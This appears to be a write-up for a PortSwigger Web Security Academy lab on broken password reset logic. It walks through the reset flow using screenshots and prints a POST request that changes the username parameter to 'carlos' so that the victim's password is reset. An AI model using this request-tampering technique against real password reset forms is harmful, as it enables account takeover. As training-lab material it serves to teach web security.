 
# Password reset broken logic

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

- Your credentials: wiener:peter

- Victim's username: carlos

---------------------------------------------

References: 

- https://portswigger.net/web-security/authentication/other-mechanisms




![img](images/Password%20reset%20broken%20logic/1.png)

---------------------------------------------

There is a “Forgot password” link in the login page:



![img](images/Password%20reset%20broken%20logic/2.png)


We receive a message with a link to restore the password:



![img](images/Password%20reset%20broken%20logic/3.png)


There we submit the new password:



![img](images/Password%20reset%20broken%20logic/4.png)


It generates the POST request:



![img](images/Password%20reset%20broken%20logic/5.png)


So we can change the username parameter to “carlos” and access the page with the new password:

```
POST /forgot-password?temp-forgot-password-token=eeiyUnDFWhZqlaBJz707cipGPxh7bN4T HTTP/2
...

temp-forgot-password-token=eeiyUnDFWhZqlaBJz707cipGPxh7bN4T&username=carlos&new-password-1=password&new-password-2=password
```